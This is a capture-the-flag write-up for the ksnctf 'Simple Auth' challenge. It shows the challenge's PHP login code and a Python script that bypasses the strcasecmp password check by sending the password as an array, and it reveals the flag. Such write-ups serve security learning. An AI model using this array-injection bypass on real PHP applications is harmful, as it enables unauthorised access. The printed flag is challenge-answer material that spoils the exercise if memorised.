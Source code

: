 Simple Auth is worth 50 points and we were given the following text.

```
simple vulnerability
http://ctfq.sweetduet.info:10080/~q32/auth.php
source
```

The url for the source is [here](http://ksnctf.sweetduet.info/q/32/auth.php).

Looking at the source, we can see the following codes.
```
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```

This is a classic PHP bug as shown here:
https://bugs.php.net/bug.php?id=64069

As you can see from the bug report, function [strcasecmp](http://php.net/manual/en/function.strcasecmp.php) will return NULL if it gets an array.

So using the script below, we will be able to bypass strcasecmp and get the flag.
```
import urllib
import urllib2

url = 'http://ctfq.sweetduet.info:10080/~q32/auth.php'
data = {
"password[]": "hello",
}

req = urllib2.Request(url, urllib.urlencode(data), headers={'Content-type': 'application/x-www-form-urlencoded', 'Accept' : 'text/plain'})
resp = urllib2.urlopen(req)
szPage = resp.read()
print szPage
```
Running the above script, we will get the following text. ```Congratulations! The flag is FLAG_VQcTWEK7zZYzvLhX```


